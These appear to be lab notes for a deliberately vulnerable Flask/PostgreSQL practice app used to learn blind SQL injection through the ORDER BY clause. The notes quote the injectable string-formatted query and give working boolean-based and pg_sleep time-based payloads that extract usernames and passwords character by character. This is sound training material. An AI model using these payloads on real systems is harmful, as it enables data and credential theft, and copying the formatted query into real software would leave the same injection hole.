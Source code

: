 ## Order

https://github.com/bmdyy/order

A small app written in Python (Flask) and PostgreSQL to practice blind SQLi in the ORDER BY clause.

If you have problems starting the docker, add this one the beggining of Dockerfile: `ENV PIP_BREAK_SYSTEM_PACKAGES 1`

The vulnerability occurs on line 32 of app.py.
```
cur.execute("SELECT * FROM horses ORDER BY %s"%(order_by))
```

We can test the injection with:
```
1 ASC --
1 DESC --
```

We can follow the logic of [this article](https://portswigger.net/support/sql-injection-in-the-query-structure) to exploit the vulnerability.

With the payload above, the logic is: If the string is true, the order will filter by Name, otherwise it will filtered by Description.
```
(CASE WHEN (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM users where user_id = '2')=98 THEN Name ELSE Description END)
```

In the **exploit.py**, we filter the first occurrence of <td> that contains the result. If it's Aaron, this means that the order is filtered by Name and we found the character.

<br>

The author's exploit uses this payload, since the content-length differ from "order by 1" and "order by 2".
```
sqli = "2 LIMIT (CASE WHEN (%s) THEN 1 ELSE 2 END)"
```

Exploit from 0x4rt3mis:
```
Time based:
SELECT CASE WHEN COUNT((SELECT password FROM users WHERE SUBSTR(password,1,1) SIMILAR TO '4'))<>0 THEN pg_sleep(5) ELSE '' END; -- -

Boolean based:
4 LIMIT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE user_id=1),1,1))='4' THEN 1 ELSE 2 END)
```

Reference: https://www.onsecurity.io/blog/pentesting-postgresql-with-sql-injections/
